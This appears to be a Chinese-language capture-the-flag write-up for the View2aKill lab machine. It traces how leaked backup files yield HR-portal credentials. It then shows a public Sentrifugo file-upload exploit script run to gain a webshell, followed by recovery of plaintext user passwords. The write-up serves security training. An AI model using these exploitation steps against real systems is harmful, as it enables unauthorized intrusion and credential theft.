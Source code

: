 扫描结果显示 **80** 端口所在的网页下存在 *robots.txt* 文件，并且在访问 `/dev` 路径时发现存在信息泄露，即在 *e_bkup.tar.gz* 备份文件中发现账户名：`chuck@localhost` 和密码构成规则：

```
Greeting Chuck, We welcome you to the team! Please login to our HR mgmt portal(which we spoke of) and fill out your profile and Details. Make sure to enter in the descrption of your CISSP under Training & Certificate Details since you mentioned you have it. I will be checking that section often as I need to fill out related paperwork. Login username: chuck@localhost.com and password is the lowercase word/txt from the cool R&D video I showed you with the remote detonator + the transmit frequency of an HID proxcard reader - so password format example: facility007. Sorry for the rigmarole, the Security folks will kill me if I send passwords in clear text. We make some really neat tech here at Zorin, glad you joined the team Chuck Lee! 
```

根据提示找到密码的第一个部分：`helicopter`

![1]({{ '/view2akill/1.bmp' | prepend: site.url }})

在 *HID6005.pdf* 文档中找到密码的第二个部分：`125`

![2]({{ '/view2akill/2.png' | prepend: site.url }})

至此我们找到了账户名和密码：`chuck@localhost.com:helicopter125`，并在[登录页面](http://192.168.174.140/sentrifugo/)进行登录，发现使用的是 *Sentrifugo* HR系统。

### Getshell

搜索发现该系统存在文件上传漏洞，执行利用脚本即可上传 webshell。

```shell
┌──(root💀kali)-[~]
└─# python3 48955.py -t http://192.168.174.140/sentrifugo -u "chuck@localhost.com" -p helicopter125                             1 ⨯
[~] Logging in
[+] Logged in
[~] Exploiting
[!] Spawning shell
www-data@view$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

简单信息收集发现靶机中存在四个普通账户：`jenny`、`max`、`mayday`和`scarpine`。之后在 */home/jenny* 主目录下发现备份文件。

```shell
www-data@view:/home/jenny$ ls -al
ls -al
total 24
drwxrwxrwx 2 jenny jenny 4096 Oct 27  2019 .
drwxr-xr-x 6 root  root  4096 Oct 27  2019 ..
-rw-r--r-- 1 jenny jenny  220 Oct 20  2019 .bash_logout
-rw-r--r-- 1 jenny jenny 3771 Oct 20  2019 .bashrc
-rw-r--r-- 1 jenny jenny  807 Oct 20  2019 .profile
-rw-r--r-- 1 jenny jenny  845 Oct 25  2019 dsktp_backup.zip
www-data@view:/tmp$ cat passswords.txt
cat passswords.txt
hr mgmt - NO ACCESS ANYMORE
jenny@localhost.com
ThisisAreallYLONGPAssw0rdWHY!!!!

ssh
jenny
!!!sfbay!!!
```
